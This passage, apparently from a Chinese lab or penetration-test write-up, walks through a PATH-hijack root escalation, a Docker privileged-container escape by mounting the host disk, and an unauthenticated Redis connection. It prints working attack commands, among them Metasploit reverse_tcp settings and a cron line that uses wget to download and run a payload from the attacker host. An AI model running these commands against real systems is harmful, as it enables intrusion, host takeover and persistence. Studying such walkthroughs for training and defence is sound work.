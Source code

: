 ![web1-jobs-shell](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/PIcGoweb1-jobs-shell.png)

该c文件执行ps命令，执行shell后查看进程也确实是如此，用蚁剑反弹一个shell回来，利用环境变量进行提权

```
echo "/bin/bash" > /tmp/ps
chmod 777 /tmp/ps
echo $PATH
export PATH=/tmp:$PATH
./shell
whoami
```

![web1-docker-root](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/PIcGoweb1-docker-root.png)

成功拿到root权限，可以利用msf生成shell文件将shell上传到msf上

![web1-shell-meterpreter-session1](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/PIcGoweb1-shell-meterpreter-session1.png)

### Docker特权模式逃逸

特权模式于版本0.6时被引入Docker，允许容器内的root拥有外部物理机root权限，而此前容器内root用户仅拥有外部物理机普通用户权限。

当控制使用特权模式启动的容器时，docker管理员可通过mount命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，此外还可以通过写入计划任务等方式在宿主机执行命令。

创建目录，并将可用设备sda1挂载到目录下

```
mkdir hacker
mount /dev/sda1 /hacker
```

![web1-mount-hacker](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/PIcGoweb1-mount-hacker.png)

如图所示挂载成功，挂载成功我们就可以写入内容到宿主机，比如计划任务，采用msf的web_delivery进行上线

```
use multi/script/web_delivery
set payload linux/x64/meterpreter/reverse_tcp
set target 7 //msf6版本，7为linux系统
set lhost 192.168.14.131
set lport 4445
echo '*/1 * * * * wget -qO ERYJXrml --no-check-certificate http://192.168.14.131:8080/e14bgbNf; chmod +x ERYJXrml; ./ERYJXrml& disown' >> /hacker/var/spool/cron/crontabs
```

因为环境问题导致的shell无法接收，只能采取别的方法

### Redis未授权访问漏洞

之前还扫出来一个redis的未授权访问，尝试去连接

```
redis-cli -h 192.168.14.247 -p 6379
```

发现能够直接连接
